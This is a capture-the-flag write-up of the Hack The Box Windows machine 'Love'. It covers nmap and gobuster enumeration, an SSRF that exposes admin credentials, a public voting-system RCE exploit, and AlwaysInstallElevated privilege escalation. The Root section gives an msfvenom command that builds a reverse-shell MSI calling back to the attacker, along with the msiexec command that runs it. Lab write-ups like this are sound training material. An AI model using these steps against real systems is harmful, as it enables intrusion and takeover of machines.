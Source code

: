 ```yaml
---
title: "[HTB] Machine: Love"
description: "[HTB] Machine: Love"
date: 2023-08-05
menu:
  sidebar:
    name: "[HTB] Machine: Love"
    identifier: htb-machine-Love
    parent: htb-machines-windows
    weight: 10
hero: images/Love.png
tags: ["HTB", "ssrf", "upload", "webshell", "winpeas", "alwaysinstallelevated", "msi", "msfvenom"]
---
```


# Love
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.239
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-08 16:58 BST
Nmap scan report for 10.10.10.239 (10.10.10.239)
Host is up (0.19s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: Voting System using PHP
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
135/tcp  open  msrpc       Microsoft Windows RPC
139/tcp  open  netbios-ssn Microsoft Windows netbios-ssn
443/tcp  open  ssl/http    Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_http-title: 403 Forbidden
|_ssl-date: TLS randomness does not represent time
445/tcp  open  �d��eU      Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   LDAPBindReq, NCP, NULL, SSLSessionReq: 
|_    Host '10.10.16.3' is not allowed to connect to this MariaDB server
5000/tcp open  http        Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.94%I=7%D=8/8%Time=64D26648%P=x86_64-pc-linux-gnu%r(NUL
SF:L,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.16\.3'\x20is\x20not\x20allowed
SF:\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SSLSessionReq,
SF:49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.16\.3'\x20is\x20not\x20allowed\x
SF:20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(LDAPBindReq,49,"
SF:E\0\0\x01\xffj\x04Host\x20'10\.10\.16\.3'\x20is\x20not\x20allowed\x20to
SF:\x20connect\x20to\x20this\x20MariaDB\x20server")%r(NCP,49,"E\0\0\x01\xf
SF:fj\x04Host\x20'10\.10\.16\.3'\x20is\x20not\x20allowed\x20to\x20connect\
SF:x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h41m00s, deviation: 4h02m31s, median: 20m59s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-08-08T09:20:21-07:00
| smb2-time: 
|   date: 2023-08-08T16:20:22
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.44 seconds

```
- `smb`
```
└─$ smbmap -H 10.10.10.239 -R -u ''
[!] Authentication error on 10.10.10.239
```
- We saw that ports `443` and `5000` are `403 Forbidden`
  - Let's check port `80`

![](./images/1.png)

- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.239/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.239/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/08/08 17:32:46 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 338] [--> http://10.10.10.239/images/]
/index.php            (Status: 200) [Size: 4388]
/home.php             (Status: 302) [Size: 0] [--> index.php]
/login.php            (Status: 302) [Size: 0] [--> index.php]
/Images               (Status: 301) [Size: 338] [--> http://10.10.10.239/Images/]
/admin                (Status: 301) [Size: 337] [--> http://10.10.10.239/admin/]
/Home.php             (Status: 302) [Size: 0] [--> index.php]
/plugins              (Status: 301) [Size: 339] [--> http://10.10.10.239/plugins/]
/includes             (Status: 301) [Size: 340] [--> http://10.10.10.239/includes/]
/Index.php            (Status: 200) [Size: 4388]
/Login.php            (Status: 302) [Size: 0] [--> index.php]
/examples             (Status: 503) [Size: 402]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/preview.php          (Status: 302) [Size: 0] [--> index.php]
/dist                 (Status: 301) [Size: 336] [--> http://10.10.10.239/dist/]
/licenses             (Status: 403) [Size: 421]
/IMAGES               (Status: 301) [Size: 338] [--> http://10.10.10.239/IMAGES/]
/%20                  (Status: 403) [Size: 302]
/INDEX.php            (Status: 200) [Size: 4388]
/Admin                (Status: 301) [Size: 337] [--> http://10.10.10.239/Admin/]
/*checkout*.php       (Status: 403) [Size: 302]
/*checkout*           (Status: 403) [Size: 302]
/*checkout*.txt       (Status: 403) [Size: 302]
/Plugins              (Status: 301) [Size: 339] [--> http://10.10.10.239/Plugins/]
/phpmyadmin           (Status: 403) [Size: 302]
/HOME.php             (Status: 302) [Size: 0] [--> index.php]
```

- `searchsploit`
  - But we don't know the version

![](./images/2.png)

- Also, I didn't noticed first, but there is a vhost `staging.love.htb`
  - It's a free file scanner application

![](./images/3.png)

## Foothold/User
- We have a `/demo.php` where we can supply `url`

![](./images/4.png)

- If we try supplying our ip, we have a connection
  - Potential `SSRF`

![](./images/5.png)

- Same with `http://10.10.10.239`
 
![](./images/6.png)

- We had port `5000`, let's try supplying 
  - We have `creds` from `Password Dashboard`
  - `admin:@LoveIsInTheAir!!!!`

![](./images/7.png)

- We have a possible `RCE` candidate

![](./images/8.png)

- Let's run it
  - If we use the exploit `49445.py` from `searchsploit`, don't forget to remove `votingsystem` from `urls` in script since our target doesn't have that route

![](./images/9.png)

- Set your listener and execute the exploit

![](./images/10.png)

![](./images/11.png)

## Root
- `Winpeas` shows possible priv esc path with `AlwaysInstallElevated`

![](./images/12.png)

- Let's create malicious `msi` and run it
  - `msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.16.3 LPORT=6666 -f msi -o revshell.msi`
  - Download file
  - Launch listener and run malicious file
  - `msiexec /quiet /qn /i revshell.msi`

![](./images/13.png)
